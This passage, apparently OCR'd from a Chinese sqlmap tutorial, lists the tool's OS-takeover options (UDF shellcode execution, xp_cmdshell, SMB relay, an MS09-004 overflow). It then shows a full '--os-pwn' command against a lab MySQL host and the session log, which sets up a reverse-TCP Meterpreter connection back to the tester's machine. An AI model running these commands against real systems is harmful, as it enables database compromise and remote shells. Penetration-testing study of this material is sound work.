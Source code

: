 ```
1、通过用户自定义的 sys_bineval()函数在内存中执行 Metasplit 的 shellcode，支持 MySQL 和 PostgreSQL 数据库，参数：--os-pwn。
2、通过用户自定义的函数上传一个独立的 payload 执行，MySQL 和 PostgreSQL 的 sys_exec()函数，Microsoft SQL Server 的 xp_cmdshell()函数，参数：--os-pwn。
3、通过 SMB 攻击(MS08-068)来执行 Metasploit 的 shellcode，当 sqlmap 获取到的权限足够高的时候（Linux/Unix 的 uid=0，Windows 是 Administrator），--os-smbrelay。
4、通过溢出 Microsoft SQL Server 2000 和 2005 的 sp_replwritetovarbin 存储过程(MS09-004)，在内存中执行 Metasploit 的 payload，参数：--os-bof 
```

列举一个 MySQL 例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
&gt; 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
&gt; 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database underlying 
operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
&gt; 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
&gt; 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
&gt; 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, please wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
```